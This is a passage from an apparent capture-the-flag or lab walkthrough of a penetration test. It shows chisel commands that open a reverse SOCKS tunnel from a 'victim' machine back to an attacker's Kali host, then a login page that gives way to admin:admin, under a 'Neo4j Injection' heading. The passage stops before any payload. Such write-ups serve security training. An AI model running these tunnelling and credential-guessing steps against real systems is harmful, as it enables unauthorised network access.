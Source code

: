 ```bash
# on kali
chisel server -p 5555 --reverse
# on victim
./chisel client 10.10.14.5:5555 R:1080:socks
```

Trying to use `proxychains` with Firefox didn't really work for some reason, so I changed the command to only forward port 8001.&#x20;

### Neo4j Injection

Port 8001 was another login page:

<figure><img src="../../.gitbook/assets/image (74) (3) (2).png" alt=""><figcaption></figcaption></figure>

I tried some weak credentials, and found that `admin:admin` worked. This was some sort of dashboard with sales and stuff.

<figure><img src="../../.gitbook/assets/image (71) (3).png" alt=""><figcaption></figcaption></figure>
